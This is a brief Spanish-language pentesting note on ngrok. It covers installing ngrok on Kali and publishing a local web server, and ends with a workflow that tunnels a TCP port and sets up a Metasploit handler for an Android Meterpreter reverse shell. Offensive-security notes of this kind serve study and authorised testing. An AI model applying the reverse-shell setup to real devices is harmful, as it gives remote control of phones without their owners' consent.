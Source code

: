 # Ngrok

Tags: #Ngrok

* [Ngrok-Windows](https://download.ngrok.com/windows) es un servicio que nos permite crear nuestro servidor local en un subdominio para poder visualizarlo fuera de la LAN, a través de Internet.

## Instalación Kali

```bash 
❯ wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz                                                

❯ tar xvzf ngrok-v3-stable-linux-amd64.tgz 
ngrok

❯ ./ngrok config add-authtoken PEGA_AQUI_TU_TOKEN
Authtoken saved to configuration file: /root/.config/ngrok/ngrok.yml
```

## Comandos 

```bash 
❯ ngrok help                   # Panel de ayuda 
❯ ngrok http 80                # Se pulica una web de local a publica
```

```bash 
# Usar Ngrok para recibir una 'ReverShell' desde una app

❯ ngrok tcp 4646               # Para abrir y recibir una conexion TCP (Te muestra el dominio publico y su puerto) que a su vez le esta haciendo un 'PortForwarding' a el puerto local '4646' de nuestra maquina


❯ msfconsole                   # Metasploit para recibir la conexion local en el puerto 4646
	❯ use exploit/multi/handler
	❯ set payload android/meterpreter/reverse_tcp 
	❯ set LHOST 0.0.0.0
	❯ set LPORT 4646
	❯ exploit
```